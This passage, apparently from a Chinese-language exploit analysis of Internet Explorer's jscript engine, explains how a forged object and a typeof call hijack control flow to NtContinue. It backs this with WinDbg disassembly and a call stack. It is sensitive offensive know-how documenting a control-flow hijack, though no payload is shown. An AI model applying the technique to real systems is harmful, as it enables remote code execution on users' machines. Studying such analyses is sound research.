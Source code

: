 ```



trigger_exec函数最后对fakeobj_var调用typeof函数，触发虚函数调用，劫持控制流到NtContinue，并将伪造的对象作为参数传入rcx：

0:000&gt; g
Breakpoint 0 hit
ntdll!ZwContinue:
00000000`76d116e0 4c8bd1          mov     r10,rcx

// 上层调用地址
0:013&gt; ub 000007fe`f00eaf86
jscript!CScriptRuntime::TypeOf+0x1916d:
000007fe`f00eaf65 e96c6ffeff      jmp     jscript!CScriptRuntime::TypeOf+0xde (000007fe`f00d1ed6)
000007fe`f00eaf6a 488b7f08        mov     rdi,qword ptr [rdi+8]
000007fe`f00eaf6e 488b07          mov     rax,qword ptr [rdi]
000007fe`f00eaf71 488b9838010000  mov     rbx,qword ptr [rax+138h]
000007fe`f00eaf78 488bcb          mov     rcx,rbx
000007fe`f00eaf7b ff15df260700    call    qword ptr [jscript!_guard_check_icall_fptr (000007fe`f015d660)]
000007fe`f00eaf81 488bcf          mov     rcx,rdi
000007fe`f00eaf84 ffd3            call    rbx ; ntdll!ZwContinue 由此处调用

// 执行流切换时的调用栈
0:013&gt; k
Child-SP          RetAddr           Call Site
00000000`05388778 000007fe`f00eaf86 ntdll!ZwContinue
00000000`05388780 000007fe`f00d1ddb jscript!CScriptRuntime::TypeOf+0x1918e
00000000`053887f0 000007fe`f00a8ec2 jscript!CScriptRuntime::Run+0x3c88
00000000`053895f0 000007fe`f00a94b3 jscript!ScrFncObj::CallWithFrameOnStack+0x162
00000000`05389800 000007fe`f00a86ea jscript!NameTbl::InvokeInternal+0x2d3
00000000`05389920 000007fe`f00a24b8 jscript!VARIANT::InvokeByDispID+0xffffffff`ffffffea
00000000`05389970 000007fe`f00a8ec2 jscript!CScriptRuntime::Run+0x5a6
00000000`0538a770 000007fe`f00a94b3 jscript!ScrFncObj::CallWithFrameOnStack+0x162
00000000`0538a980 000007fe`f00a86ea jscript!NameTbl::InvokeInternal+0x2d3
00000000`0538aaa0 000007fe`f00a24b8 jscript!VARIANT::InvokeByDispID+0xffffffff`ffffffea
00000000`0538aaf0 000007fe`f00a8ec2 jscript!CScriptRuntime::Run+0x5a6
00000000`0538b8f0 000007fe`f00a8d2b jscript!ScrFncObj::CallWithFrameOnStack+0x162
00000000`0538bb00 000007fe`f00a8b95 jscript!ScrFncObj::Call+0xb7
00000000`0538bba0 000007fe`f00ae640 jscript!CSession::Execute+0x19e
00000000`0538bc70 000007fe`f00b70e7 jscript!COleScript::ExecutePendingScripts+0x17a
00000000`0538bd40 000007fe`f00b68e6 jscript!COleScript::ParseScriptTextCore+0x267
00000000`0538be30 000007fe`ec4a9d41 jscript!COleScript::ParseScriptText+0x56
00000000`0538be90 000007fe`ec4a97e2 MSHTML!CActiveScriptHolder::ParseScriptText+0xc1
00000000`0538bf10 000007fe`ec4aa8e5 MSHTML!CScriptCollection::ParseScriptText+0x27a
00000000`0538bff0 000007fe`ec4aa457 MSHTML!CScriptData::CommitCode+0x395
00000000`0538c1c0 000007fe`ec4aa1ed MSHTML!CScriptData::Execute+0x24b
00000000`0538c280 000007fe`ec22dc19 MSHTML!CHtmScriptParseCtx::Execute+0xe9
00000000`0538c2b0 000007fe`ec831419 MSHTML!CHtmParseBase::Execute+0x1dd
00000000`0538c3a0 000007fe`ec35114f MSHTML!CHtmPost::Exec+0x555
00000000`0538c5b0 000007fe`ec351098 MSHTML!CHtmPost::Run+0x3f
00000000`0538c5e0 000007fe`ec352387 MSHTML!PostManExecute+0x70
00000000`0538c660 000007fe`ec354ea3 MSHTML!PostManResume+0xa1
00000000`0538c6a0 000007fe`ec212dc7 MSHTML!CHtmPost::OnDwnChanCallback+0x43
00000000`0538c6f0 000007fe`ecad481e MSHTML!CDwnChan::OnMethodCall+0x41
00000000`0538c720 000007fe`ec15bdd8 MSHTML!GlobalWndOnMethodCall+0x219
00000000`0538c7c0 00000000`76ab9bd1 MSHTML!GlobalWndProc+0x24c
00000000`0538c840 00000000`76ab98da USER32!UserCallWinProcCheckWow+0x1ad
00000000`0538c900 000007fe`f10eee57 USER32!DispatchMessageWorker+0x3b5
00000000`0538c980 000007fe`f10f1d8b IEFRAME!CTabWindow::_TabWindowThreadProc+0x64c
00000000`0538fc00 000007fe`fd4cfbaf IEFRAME!LCIETab_ThreadProc+0x3a3
00000000`0538fd30 000007fe`f38961af iertutil!_IsoThreadProc_WrapperToReleaseScope+0x1f
00000000`0538fd60 00000000`76bb652d IEShims!NS_CreateThread::DesktopIE_ThreadProc+0x9f
```
